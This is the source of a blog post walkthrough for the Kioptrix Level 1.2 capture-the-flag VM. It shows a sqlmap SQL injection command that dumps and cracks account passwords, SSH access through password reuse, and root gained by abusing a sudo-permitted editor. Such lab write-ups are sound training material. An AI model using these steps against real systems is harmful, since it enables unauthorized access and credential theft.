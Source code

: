 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.2 Walkthrough"
date:   2013-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.2 Walkthrough, CTF solution for Kioptrix Level 1.2.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.7p1 Debian 8ubuntu1.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

Enumeration of the website discovered it was likely vulnerable to an [SQL Injection](/penetration-testing/web-app/sql-injection/), entering <code>id='</code> rendered the following MySQL error:

![SQL Error](/img/blog/kioptrix/sql-error.png)


SQLMap was used to successfully dump the databases and crack the hashes:

{% highlight bash %}

[root:~]# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+

{% endhighlight %}

## Non privileged shell

Due to password reuse both accounts were able to ssh, dreg had a limited shell.

## Local Enumeration

Local enumeration of loneferrets home dir disclosed:

{% highlight bash %}
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
{% endhighlight %}

## Privilege Escalation

<code>sudo ht</code> rendered a file explorer, the user <code>loneferret</code> was added to the sudoers group, making privilege escalation trivial.  

![sudo ht](/img/blog/kioptrix/sudo-ht.png)

{% highlight bash %}

loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~#

{% endhighlight %}
